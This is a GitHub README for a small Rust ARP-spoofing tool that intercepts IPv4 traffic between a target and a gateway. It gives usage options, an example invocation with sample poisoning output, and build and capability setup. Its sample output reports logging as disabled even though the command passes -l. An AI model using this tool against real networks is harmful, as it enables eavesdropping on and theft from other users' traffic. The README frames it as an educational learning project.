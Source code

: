 # arp-spoof


This is a minimal ARP-Spoofing tool written in **Rust language** using pcap.

This tool allows intercepting Ipv4 traffic between two hosts on the same network.
Typically, between one machine and the internet gateway.

Please note, this tool was created to get comfortable with Rust, so the code isn't necessarily optimal nor idiomatic.

**This tool is for educational purposes only.**

## Features:

* 1 to 1 route poisoning
* save intercepted traffic as pcap file
* automatic Ipv4 forwarding

# Usage
```
Usage:
    ./arp-spoof [OPTIONS]

Minimal ARP spoofing tool written in Rust.

optional arguments:
  -h,--help                       show this help message and exit
  -i,--interface INTERFACE        interface name
  -t, --target_ip TARGET_ip       target ipv4 address
  -g, --gateway_ip GATEWAY_ip     gateway ipv4 address
  -l, --log-traffic               logs all target traffic to `save.pcap`
  -f, --forward                   leave `/proc/sys/net/ipv4/ip_forward` untouched
  -V,--version                    show version
```
A typical invocation would look like this. The arguments are pretty self-describing.
```
# ./arp-spoof -i wlo1 -t 10.0.0.189 -g 10.0.0.1 -l
========================== Network Interface Info ==========================
Interface:            wlo1
IPv4 Address:         10.0.0.92
MAC Address:          32:C4:8D:20:45:33
Connection Status:    Connected
============================================================================

========================== Tool Configuration ==============================
IPv4 Traffic Forwarding:     Disabled
PCAP Traffic Logging:        Disabled
============================================================================

Poisoning ...
[*] Resolving hosts (this can take a bit) ...
 -> found EC:A7:12:C0:F7:1A at 10.0.0.189
 -> found 19:C0:3E:B2:AC:22 at 10.0.0.1
[+] Poisoning traffic between 10.0.0.189 <==> 10.0.0.1
[*] Received: 274, dropped: 0, if_dropped: 0
[*] Received: 518, dropped: 0, if_dropped: 0
```

# Building

```
# cargo build --release
# ./target/release/arp-spoof --help
```
Tested with rust 1.68.0.


## Linux

On Arch based Linux, install `community/rust`, `community/cargo` and `core/libpcap`. If not running as root, you need to set capabilities like so: ```sudo setcap cap_net_raw,cap_net_admin=eip path/to/bin```

# TODO:

* implement `n` to `m` route poisoning

